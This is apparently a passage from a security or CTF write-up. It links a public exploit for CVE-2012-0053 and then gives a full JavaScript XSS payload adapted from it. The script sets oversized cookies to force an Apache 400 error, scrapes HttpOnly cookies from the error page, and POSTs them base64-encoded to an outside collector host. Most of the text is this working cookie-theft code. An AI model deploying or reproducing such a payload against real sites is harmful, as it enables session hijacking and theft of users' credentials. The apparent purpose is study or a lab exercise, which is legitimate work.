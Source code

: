 A [working script](http://downloads.securityfocus.com/vulnerabilities/exploits/51706.js)
exploiting CVE-2012-0053 can be found on [SecurityFocus](http://www.securityfocus.com/)
([source from GitHub](https://gist.github.com/pilate/1955a1c28324d4724b7b/7fe51f2a66c1d4a40a736540b3ad3fde02b7fb08)).

Here is the adaptation for this situation:

```javascript
<script>

function setCookies (good) {
    // Construct string for cookie value
    var str = "";
    for (var i=0; i< 819; i++) {
        str += "x";
    }
    // Set cookies
    for (i = 0; i < 10; i++) {
        // Expire evil cookie
        if (good) {
            var cookie = "xss"+i+"=;expires="+new Date(+new Date()-1).toUTCString()+"; path=/;";
        }
        // Set evil cookie
        else {
            var cookie = "xss"+i+"="+str+";path=/";
        }
        document.cookie = cookie;
    }
}

setCookies();

var xhrCgi = new XMLHttpRequest();
xhrCgi.open("GET", "http://54.172.225.153:8000/", true);
xhrCgi.withCredentials = true;

xhrCgi.onload = function () {

    var cookie_dict = {};
    // Only react on 400 status
    if (xhrCgi.readyState === 4 && xhrCgi.status === 400) {
        // Replace newlines and match <pre> content
        var content = xhrCgi.responseText.replace(/\r|\n/g,'').match(/<pre>(.+)<\/pre>/);
        if (content.length) {
            // Remove Cookie: prefix
            content = content[1].replace("Cookie: ", "");
            var cookies = content.replace(/xss\d=x+;?/g, '').split(/;/g);
            // Add cookies to object
            for (var i=0; i<cookies.length; i++) {
                var s_c = cookies[i].split('=',2);
                cookie_dict[s_c[0]] = s_c[1];
            }
        }
        // Unset malicious cookies
        setCookies(true);
        data = JSON.stringify(cookie_dict);
	
	var xhrSend = new XMLHttpRequest();
	xhrSend.open("POST", "http://requestb.in/1kwhkwc1", true);
	params  = 'cgitext=' + encodeURI(window.btoa(data));
	xhrSend.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
	xhrSend.send(params);
    }
};

```